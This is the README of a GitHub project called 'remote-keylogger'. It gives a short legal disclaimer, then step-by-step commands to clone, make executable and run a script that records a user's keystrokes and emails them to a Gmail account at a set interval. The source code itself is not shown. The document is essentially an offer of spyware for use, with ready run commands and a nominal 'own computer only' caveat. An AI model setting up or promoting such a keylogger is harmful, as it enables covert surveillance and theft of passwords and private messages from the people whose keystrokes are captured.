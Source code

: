 # remote-keylogger
# Legal
You shall not misuse the program to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
only use this script on computer you own, permitted to use
i am not not responsible for the illegal activity performed with the content of this repository
# Usage
for the email and password use a google email address and enable 2fa authentication on your gmail account which lets you access app password. generate a App password copy and store it securely and use it with this script 
pip install -r requirements.txt

clone the repository with git clone https://github.com/fixit-py/remote-keylogger.git

change into the directory with cd remote-keylogger

give the file permission to run as an executable with chmod +x Keylogger.py and chmod +x zlogger.py

run python3 zlogger.py -t 60 -e your_email@gmail.com -p your_password while using python3

Or you can manually change the default values of each arguments 
# About 
This script lets you log the key strokes made by the user stores it in a file and sends it to a specific email address within the specified time interval. 
